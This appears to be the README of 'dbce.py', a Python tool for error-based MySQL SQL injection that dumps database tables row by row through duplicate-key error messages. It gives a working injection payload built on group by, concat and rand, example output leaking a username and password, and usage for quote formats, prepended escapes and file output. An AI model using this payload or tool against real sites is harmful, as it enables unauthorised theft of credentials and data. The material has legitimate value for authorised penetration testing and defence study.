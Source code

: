 Database Content Extractor
==========================

## Description
This is meant as a helper tool for those situations where you are only allowed to output a single row. For example inside error messages.

#### How does it work?
The way that the tool works is that it will append a query to the end of the defined target. This query will generate a MySQL error that includes the content pulled from the database.

#### Example

We wan't to extract the username and password of all the users in a database, but we are limited to extracting them one by one.

**The query**

    http://target/?id=1'+or+1+group+by+concat((select+concat(0x3c647164756d703e,concat_ws(0x3a,column1,column2),0x3c2f647164756d703e)+from+table+limit+X,1),0x00,ceil(rand(0)*2))+having+min(0)+--+-

**The output**

    Duplicate entry 'someuser:thepassword' for key 'group_key'

Now the script will go into a loop where on every loop it will increment the value of the LIMIT clause by 1 ...

    LIMIT 0,1
    LIMIT 1,1
    LIMIT 2,1
    .....

... until there's no more rows to return.

## Usage

**The very basics**

    python3 dbce.py -t http://target/?id=1 -T users -C username,password

**Changing format**

A site does not always use the single quote, so if you need to use double or no quote at all you change the format to either double or integer.

    python3 dbce.py -t http://target/?id=1 -T users -C username,password -f double
    python3 dbce.py -t http://target/?id=1 -T users -C username,password -f integer

**Prepending**

For example if a site is using parenthesis you need to escape out of it. This can be done by adding the prepend option

    python3 dbce.py -t http://target/?id=1 -T users -C username,password -p ")"

**Dump to file**

    python3 dbce.py -t http://target/?id=1 -T users -C username,password -o file

**Quiet mode**

When dumping to a file there's really no need to fill up your screen with all the extracted content.

    python3 dbce.py -t http://target/?id=1 -T users -C username,password -o file -q


## Options

    -t | --target=    Target website (i.e: http://www.target.com/?id=1)
    -T | --table=     Database table
    -C | --columns=   Columns to extract
    -f | --format=    What type of injection the tool needs to use. (Supported: single, double, integer)
                      Explained:
                      single  - Single quoted (Default)
                      double  - Double quoted
                      integer - No quote
    -p | --prepend=   Prepend custom injections
    -o | --output=    Write output to file
    -q | --quiet      Do not print results to the console

## Changelog
**v0.3**

* Fixed bugs
* Added two new parameters; output and quiet
    * Output (-o | --output) - Write output to file
    * Quiet (-q | --quiet) - Results will not be printed to the terminal

**v0.2**

* Added 2 new parameters; format and prepend
    * Valid formats: single, double and integer
    * Prepend custom payloads between parameter and default query
* Changed name since it's no longer just aimed at double query injection
* Added timer to see how long the process took

